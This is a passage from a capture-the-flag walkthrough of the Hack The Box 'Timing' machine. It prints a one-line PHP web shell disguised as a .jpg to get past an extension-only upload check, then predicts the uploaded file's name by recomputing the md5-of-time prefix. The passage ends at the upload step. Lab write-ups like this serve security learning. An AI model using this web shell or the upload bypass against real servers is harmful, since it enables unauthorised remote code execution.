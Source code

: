 ## Web Shell

We've found the image upload area which is using the PHP file we looked at earlier. It's safe to assume this will be our method of gaining remote code execution. Let's start with a simple web shell. We know from the code review that there's a file extension check, but not a check of the contents of the file. We can easily bypass the check like this:

```sh
┌──(root💀kali)-[~]
└─# cat pencer.jpg
<?php system($_GET[cmd]);?>
```

We've used this a number of time before like on [Nineveh](https://pencer.io/ctf/ctf-htb-nineveh) and [Forge](https://www.hackthebox.eu/home/machines/profile/376). However it's slightly more complicated here because the resulting filename also has an md5 hash of the current time prepended to it.

We can create our own simple filename generator to help. This is what the PHP file is doing:

```php
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
```

Let's test our own version:

```sh
┌──(root💀kali)-[~/htb/timing]
└─# date
Wed 22 Dec 17:13:27 GMT 2021
```

Use current time:

```php
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed 22 Dec 17:13:27 GMT 2021')) . '_pencer.jpg');
01c656c2e2adb93593117cb1b3d12808_pencer.jpg
```

So using interactive php mode we can take the line from the code we reviewed and replace time() with the current time on my Kali box. Then append the name of the file we created that will be used for command execution. The resulting filename is what we will need to use once it's uploaded.

Let's do it for real. Go back to the upload form and select our web shell:

![timing-upload-shell](/assets/images/2021-12-22-17-02-44.png)
